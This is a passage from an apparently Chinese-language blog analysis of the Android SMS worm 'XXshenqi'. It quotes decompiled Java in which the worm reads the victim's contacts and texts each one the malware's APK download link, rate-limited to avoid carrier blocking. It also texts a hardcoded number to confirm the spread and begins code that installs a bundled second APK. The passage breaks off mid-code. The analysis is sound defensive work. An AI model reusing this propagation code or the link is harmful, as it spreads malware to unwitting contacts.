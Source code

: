                 if ((WelcomeActivity.this.counts % 20 == 0) && (WelcomeActivity.this.counts != 0))
                  sleep(5000L);
                if (WelcomeActivity.this.counts == 99)
                  break label168;
                SmsManager.getDefault().sendTextMessage(WelcomeActivity.this.phoneString, null, WelcomeActivity.this.nameString + "看这个，" + "http://cdn.yyupload.com/down/4279193/XXshenqi.apk", null, null);
                WelcomeActivity localWelcomeActivity1 = WelcomeActivity.this;
                localWelcomeActivity1.counts = (1 + localWelcomeActivity1.counts);
                System.out.println("send Message to " + WelcomeActivity.this.nameString + " " + WelcomeActivity.this.counts);
              }
              localArrayList.add(WelcomeActivity.this.phoneString);
            }
            catch (Exception localException)
            {
              while (true)
                localException.toString();
            }
          }
        }
        SmsManager.getDefault().sendTextMessage("18670259904", null, "XXshenqi 群发链接OK", null, null);
        WelcomeActivity localWelcomeActivity2 = WelcomeActivity.this;
        localWelcomeActivity2.counts = (1 + localWelcomeActivity2.counts);
        System.out.println("===========================");
        System.out.println("test---->群发OK");
        System.out.println("============================");
      }
    }
    .start();
  	}

很明显在读取通讯录，通过内容提供者获取`ContactsContract.Contacts`，获取到手机号和名字以后，就开始使用短信接口进行发送短信，这里他先在号码前面去除了存在的`+86`的国际区号，然后对这个号码是否是手机号做了一个判定，还防止过于快速的发送短信被运营商封禁做了一个休眠（每条短信休眠20ms，20条短信后休眠5秒，每100条短信清空一下指针防止溢出或许），很不错。

然后就是发送大家都看到的那条短信：`SmsManager.getDefault().sendTextMessage(WelcomeActivity.this.phoneString, null, WelcomeActivity.this.nameString + "看这个，" + "http://cdn.yyupload.com/down/4279193/XXshenqi.apk", null, null);`

当程序在做这些事情的时候，我们看到的是这个画面：
![欢迎界面](https://i.imgur.com/a3A7gcA.jpg)

**完成后我们就到了主界面了，这时候你的通讯录好友已经都收到你的短信了。社会工程攻击已经完成了，病毒的下载链接已经扩散，就等小白上钩了~接下来就是对你的攻击了。**

进入主页面我们会看到这样的页面，提示我们安装资源包。

![pic2](https://i.imgur.com/Mt4cfsh.png)

恩。一般人都会点安装的吧，然后就很顺其自然的安装了asserts目录下的那个apk

![pic3](https://i.imgur.com/T9Mmem4.png)

让我们看看代码：

    :::java
	public boolean retrieveApkFromAssets(Context paramContext, String paramString1, String paramString2)
  	{
    boolean bool;
    try
    {
      File localFile = new File(paramString2);
      if (localFile.exists())
        return true;
      localFile.createNewFile();
      InputStream localInputStream = paramContext.getAssets().open(paramString1);
      FileOutputStream localFileOutputStream = new FileOutputStream(localFile);